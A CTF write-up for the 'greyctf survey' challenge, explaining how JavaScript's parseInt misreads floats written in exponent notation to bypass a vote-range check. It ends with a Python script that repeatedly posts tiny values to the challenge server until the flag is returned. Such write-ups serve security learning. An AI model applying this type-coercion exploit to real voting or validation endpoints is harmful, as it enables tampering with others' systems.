 ```yaml
---
title: Greyctf Survey Writeup
date: 2024-04-25
categories:
  - Writeups
tags:
  - Grey cat the flag
---
```


# Intro

- Recently I have participated in Grey Cat The Flag as a member in F1ag dot txt, and I counter some questions which are quite interesting. One of them is greyctf survey

# 0x01

### Source code:

index.js
```javascript
app.post('/vote', async (req, res) => {
    const {vote} = req.body;
    if(typeof vote != 'number') {
        return res.status(400).json({
            "error": true,
            "msg":"Vote must be a number"
        });
    }
    if(vote < 1 && vote > -1) {
        score += parseInt(vote);
        if(score > 1) {
            score = -0.42069;
            return res.status(200).json({
                "error": false,
                "msg": config.flag,
            });
        }
        return res.status(200).json({
            "error": false,
            "data": score,
            "msg": "Vote submitted successfully"
        });
    } else {
        return res.status(400).json({
            "error": true,
            "msg":"Invalid vote"
        });
    }
})

```

From the source code, we can see that we are able to send data by using post method to the endpoint '/vote'. And the data will be in json format:  {'votes': value}

The value need to be send will have to be in between 1 and -1, and it will be parsed into an integer and will be added to the 'score' variable, and once the value of score exceeds 1. It will return with flag

# 0x02

As such, we can use try to use burp to intercept the packet first and post a random data that is between 1 and -1 . But it turns out that the value it returns us is the exact same.

## parseInt() function

In Javascript, the parseInt() function parses a string argument and returns an integer of the specified radix (the base in mathematical numeral systems)(https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/parseInt)

It has two parameter(here we only require to use one): String and radix(we do not need use this one at this circumstance)

Tips: 
1. If the string start with a "0x", Javascript will interpret it as a hexadecimal number
2. If the typeof value is not a string, Javascript will implicitly call the `toString()` to convert it into a string by default.

The parseInt() will starts parsing from the beginning of the string until it encounters a non-numeric character or reaches the end of the string with whitespace ignoring . If the first non-whitespace character is not numeric character, plus or negative. It will return a value of NaN.

For instance:

```javascript:
console.log(parseInt('123abc'))//123
console.log(parseInt(' 1'))//1
console.log(parseInt('a'))//NaN
```

Similarly, if the value is a decimal(float), it will return the number before decimal point, as '.' is considered as non-numeric

```javascript
console.log(parseInt(0.05))//0
```

It will return a value of 0, and that explains why the score remain exact same why we post a value(-1 < value < 1), as it will be parsed to 0.

# 0x03

## Standard form

However, in javascript, when a number has more than 6 decimal places, it will automatically transformed into standard form.

For instance:

```javascript
console.log(0.0000001)//1e-7
```


Therefore, back to the parseInt() function again, once we post a value that exceeds 6 decimals places, parseInt() lt will only parse the part of the string before the "e" character:

For instance:

```javascript
0.0000001 -> 1e-7
```

The first number that parseInt() will parse will be 1 and end before the "e" character

As such, we can use this and post a data that is more than 6 decimal places.

![](/assets/img/Grey_cat_the_flag/upload_file.png)

By doing it, we can find the value changing, and by doing it twice, we are able to make the score more than 1.

As it exceeds 1, it returns us with the flag.

# 0x04
## Python

```python
exp.py

#!/usr/bin/python3
import requests
import json

def solve():
    try:
        # url
        url = 'http://challs.nusgreyhats.org:33334/vote'
        # header
        header = {
            "Content-Type": "application/json; charset=utf-8"
        }
        # payload
        payload = '''
        {"vote":0.0000000000000000001}    
        '''
        reponse = requests.post(url, data=payload,headers=header)
        # if the score still do not exceeds 1
        # flag format: "grey{...}"
        while "grey{" not in reponse.text:
            reponse = requests.post(url, data=payload,headers=header)
        # flag 
        flag = json.loads(reponse.text)['msg']
        print(flag)
    except Exception as e:
        print(e)

if __name__ == "__main__":
    solve()

```


Reference: 
https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/parseInt
http://t.csdnimg.cn/EU6uo
http://t.csdnimg.cn/yGCjd
